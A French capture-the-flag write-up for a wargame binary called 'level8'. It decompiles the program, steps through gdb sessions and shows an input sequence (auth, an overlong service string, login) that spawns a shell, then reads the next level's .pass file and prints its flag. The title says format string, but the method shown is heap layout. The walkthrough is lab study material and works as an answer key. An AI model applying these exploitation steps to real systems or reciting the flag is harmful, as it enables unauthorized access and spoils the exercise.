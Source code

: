 
# Format String Exploitation

En décompilant le programme, on observe qu'il y a différents tests pour arriver à une condition finale. Si cette condition est respectée, alors un `shell` avec les droits de `level9` sera lancé.
Observons la condition nécessaire permettant d'exécuter un `shell`.
```C
eax = auth;
eax = *((eax + 0x20));
if (eax != 0) {
	system ("/bin/sh");
	goto label_0;
}
```
Si on traduit le code décompilé pour avoir un code un plus clair, cette est : 
```C
if (auth[32] != '\0') {
	system ("/bin/sh");`
}
```
En effet, `0x20` équivaut à 32 en base10.

Globalement, le code est une boucle infini, qui attend différentes entrées. Si l'entrée est valide, alors on passera à la prochaine condition. Il va donc nous falloir plusieurs étapes pour arriver à la conditon finale vu précédement. 

On remarque dans le premier bloc de code, que l'entrée attendu semble être `auth `.
```C
 puVar6 = (uint8_t *)"auth ";
        do {
            ...
```
Pour valider notre condition finale, la méthode la plus simple serait donc d'écrire `auth ` suivis de plus de 32 caractères afin que `auth[32]` soit différent de `\0`.

Voyons ça sur `gdb`.

```
> gdb level8
[...]
> (gdb) disas main
[...]
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:	mov    %eax,0x8049ab0
[...]
> (gdb) b *0x080486ab
[...]
> (gdb) r 
Starting program: /home/user/level8/level8
(nil), (nil)
auth sdfsd
0x804a008, (nil)
service

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 "sdfsd\n"
```

Ici, nous avons `break` au niveau du `strdup`. Cette fonction est appelée lorsqu'on saisis `service` comme entrée. Nous pouvons à cet endroit afficher la valeur de `auth `.
Lorsque qu'on saisi `auth `, le programme nous r'envoie son adresse. On peut donc afficher son adresse afin d'en connaitre son contenu.
La valeur de `auth ` est ici `sdfsd\n`. Nous pouvons maintenant essayer de mettre plus de caractères afin de valider la condition `auth[32] != '\0'`.

```
> (gdb) b *0x080486ab
[...]
> (gdb) r
Starting program: /home/user/level8/level8
(nil), (nil)
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, (nil)
service 

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/s 0x804a008
0x804a008:	 ""
> (gdb) x/x 0x804a008
0x804a008:	0x00
```

On observe que `auth ` est maintenant égal  à `NULL`. En regardant le code, on remarque `auth ` va être `malloc`, puis le premier octet va être mis à 0. 
Si il y a moins de moins de 31 caractères, notre input va être copié dans `auth `. 


```C
_auth = (undefined4 *)malloc(4);
*_auth = 0;
```

```C
if (str1 < 0x1f) {
	strcpy(_auth, acStack139);
}
```

`0x1f` correspond à 31 en `base 10`.

Nous allons donc devoir trouver une autre solution pour arriver à notre condition finale.

Nous allons maintenant manipuler la stack afin de comprendre un peu mieux le fonctionnement du programme.
Nous allons `break` au niveau du `strcpy` pour voir si notre premiere entrée, à savoir `auth ` rentre dans cette fonction.
Un seconde break au niveau du `strdup` pour voir si notre seconde entrée, à savoir `service` rentre dans cette fonction.
Et un troisième `break` au niveau d'un `mov` qui va ajouter `0x20`à `esp`. En effet, c'est le seule endroit, ou on pourra afficher rentrée toutes nos entrées et pouvoir les afficher. 

```
> gdb ./level8
[...]
(gdb) b *0x0804863d
Breakpoint 1 at 0x804863d
(gdb) b *0x080486ab
Breakpoint 2 at 0x80486ab
(gdb) b *0x080486e7
Breakpoint 3 at 0x80486e7
> r 
[...]
auth 
Breakpoint 1, 0x0804863d in main ()
> (gdb) x/10wx $esp
0xbffff670:	0x0804a008	0xbffff695	0xb7fd1ac0	0xb7fd0ff4
0xbffff680:	0xbffff6ce	0xbffff6cf	0x00000001	0xffffffff
0xbffff690:	0x68747561	0xbf000a20
(gdb) x 0xbffff695
0xbffff695:	0x00bf000a
```

On va décomposer un petit peu. Ici, nous avons saisis `auth ` au niveau du `break` à `strcpy`. On rentre donc bien dans cette fonction. Pour rappele, voici le code correspondant.

```C
  if (stre < 0x1f) {
	strcpy(_auth, acStack139);
}
```

Notre premier argument est à l'adresse `0x0804a008`. `0xbffff695` est l'adresse du second argument de `strcpy`. Si on affiche cet argument, on obtient `0x00bf000a`, mais c'est le `a` qui nous intéresse. Le programme va donc copier `a` dans `auth `.

On peut vérifier cela en continuant notre affichage de la stack.

```
> (gdb) ni
0x08048642 in main ()
> (gdb) x/8wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00020ff1
0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
```

On voit bien qu'on retrouve notre `a` en affichant `auth `. Continuons dans notre programme.

```
> (gdb) c
Continuing.
0x804a008, (nil)
service

Breakpoint 2, 0x080486ab in main ()
> (gdb) x/12wx $esp
0xbffff670:	0xbffff697	0x00000080	0xb7fd1ac0	0xb7fd0ff4
0xbffff680:	0xbffff6ce	0xbffff6cf	0x00000001	0xffffffff
0xbffff690:	0x76726573	0x0a656369	0x00000000	0xb7ff3fec
> (gdb) ni
0x080486b0 in main ()
> (gdb) x 0x0804a008
0x804a008:	0x0000000a
> (gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000011
0x804a018:	0x0000000a	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
```

On rentre donc bien dans la fonction `strdup`. Voici le bout de code lié à cette fonction.

```C
_service = strdup(auStack137);
```
En affichant la stack, on observe que le contenu de `auth ` est le même que `service`. On voit bien que le contenu de l'adresse de service (`0x804a018`) est bien `0x0000000a`. 
On retrouve donc notre `a`.

Continuons dans notre observation. 

```
> (gdb) c
[...]
login

Breakpoint 3, 0x080486e7 in main ()
> (gdb) x $eax
0x804a008:	0x0000000a
> (gdb) x $eax+0x20
0x804a028:	0x00000000
> (gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000011
0x804a018:	0x0000000a	0x00000000	0x00000000	0x00020fe1
0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
```

Ici, on observe que `eax` à bien notre `a`, mais qu'a `eax+0x20`,  `0x804a028` est égal a `NULL`. On a fait `+0x20`, car on a vu précédement, qu'il y avait une comparaison avec `eax+0x20`. Si on regarde la `stack`, on observe qu'a l'adresse `0x804a028`, le contenu est nulle. Il va donc falloir qu'on écrive au minimum `16` caractères après `service` pour que `eax+0x20 != '\0'`. On peut téster ça `gdb`.


```
> (gdb) b *0x080486e7
[...]
> (gdb) r
auth
[...]
serviceAAAAAAAAAAAAAAAA
[...]
login

Breakpoint 1, 0x080486e7 in main ()
(gdb) x $eax
0x804a008:	0x0000000a
(gdb) x $eax+0x20
0x804a028:	0x0000000a
(gdb) x/12wx 0x0804a008
0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000019
0x804a018:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a028:	0x0000000a	0x00020fd9	0x00000000	0x00000000
```

On voit bien que `x $eax+0x20` est bien différent de `'\0'`. Il nous suffit de continuer le programme. 

```
> (gdb) c
Continuing.
$
```

Nous obtenons bien un shell !

```
> ./level8
[...]
> auth 
0x804a008, (nil)
> service AAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
> login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
``` 
